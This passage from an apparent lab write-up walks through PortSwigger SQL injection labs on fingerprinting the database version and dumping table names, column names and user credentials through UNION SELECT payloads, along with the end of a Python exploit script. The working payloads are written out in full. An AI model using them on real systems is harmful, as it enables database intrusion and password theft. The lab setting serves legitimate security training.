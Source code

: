 ```python
    except IndexError:
        print('Usage: %s <url>' % sys.argv[0])
        print('Example: %s www.example-com' % sys.argv[0])
        sys.exit(-1)
    columns=exploit_sqli(url,payload)
    if columns:
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")
```
## Lab 8 - SQL injection attack, querying the database type and version on MySQL and Microsoft
In this lab we need to find out the MySQL database version, first we see how many columns the table has with the payload `'order by 2` by, after we find that it has 2 columns, we use the specific payload using the [cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), in this case it would be `@@version`, and instead of commenting with two dashes, we use #.

So the query will look something like this:

```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT NULL, @@version%23
```
We use %23 because the hashtag has to be encoded, after that the response is the database version which is 8.0.28.

### Lab 8 - Python Script

In this case the script is the same as the previous one, only the payload changes, which in this case is `@@version`, you can be guided by the script of lab 7.

## Lab 9 - SQL injection attack, listing the database contents on non-Oracle databases
In this lab first we need the name of the tables, for that we use the parameter `table_name` and it will be extracted from `information_schema.tables` that allows us to read data about the database for more information read the [Documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html), as the query accepts 2 text parameters, we use NULL in one and we get all the tables in the database.

The payload in the URL look like this `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Now, we select the table that contain the word users, in my case is `users_mumqoo` and dump the column names with this payload `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns WHERE table_name='users_mumqoo'----`

In my case the column names are `password_lhjzlx` and `username_ngcpuh`.

Finally we can retrieve the username and password because we know the column name and the table name, we will use this payload `'+UNION+SELECT+username_ngcpuh, password_lhjzlx+FROM users_mumqoo--`

The final query will look something like this:

```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT username_ngcpuh, password_lhjzlx FROM users_mumqoo--
```
## Lab 10 - SQL injection attack, listing the database contents on Oracle
